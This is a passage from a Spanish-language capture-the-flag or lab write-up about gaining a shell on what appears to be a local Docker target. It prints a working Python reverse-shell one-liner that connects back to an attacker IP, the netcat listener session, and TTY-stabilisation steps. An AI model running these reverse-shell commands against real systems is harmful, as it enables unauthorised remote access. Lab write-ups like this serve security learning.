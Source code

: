Si entramos de esta forma al poco tiempo de establecer la `shell`, nos concluye la conexión, esto puede ser porque el servidor está bloqueando ciertos tipos de conexiones

### `python` Reverse Shell

Usaremos una `reverse shell` con `python3` para no depender de un TTY y abrir directamente un socket a nuestra máquina atacante, el comando sería el siguiente

~~~ bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("172.17.0.1",4646)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash","-i"]);'
~~~

Posteriormente lanzaremos una pseudo-terminal usando python. Ahora deberíamos poder tener una `shell` más interactiva

~~~ bash
nc -lvnp 4646
listening on [any] 4646 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38166
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell

www-data@5c050710a415:/var/www/html/pruebasUltraSecretas$ python3 -c 'import pty; pty.spawn("/bin/bash")'

<as$ python3 -c 'import pty; pty.spawn("/bin/bash")'      
www-data@5c050710a415:/var/www/html/pruebasUltraSecretas$
~~~



# Escalada de privilegios
---
## TTY Treatment

Si hacemos el tratamiento de la TTY de la forma clásica, es posible que se interrumpa la conexión. Es por esto que usaremos `python` para lanzar una pseudo consola

- Mantendremos el uso de la variable `TERM` establecido con el valor `xterm` para poder limpiar la pantalla, lo fastidioso en este caso sería que debemos usar el comando `clear` en vez de `Ctrl + L`

~~~ bash
www-data@5c050710a415:/var/www/html/pruebasUltraSecretas$ python3 -c 'import pty; pty.spawn("/bin/bash")'
<as$ python3 -c 'import pty; pty.spawn("/bin/bash")'      
www-data@5c050710a415:/var/www/html/pruebasUltraSecretas$ export TERM=xterm
export TERM=xterm
www-data@5c050710a415:/var/www/html/pruebasUltraSecretas$ ^Z
[1]  + 131393 suspended  nc -lvnp 4646
incommatose@parrot~$ stty raw -echo; fg
[1]  + 131393 continued  nc -lvnp 4646
                                      reset xterm
~~~
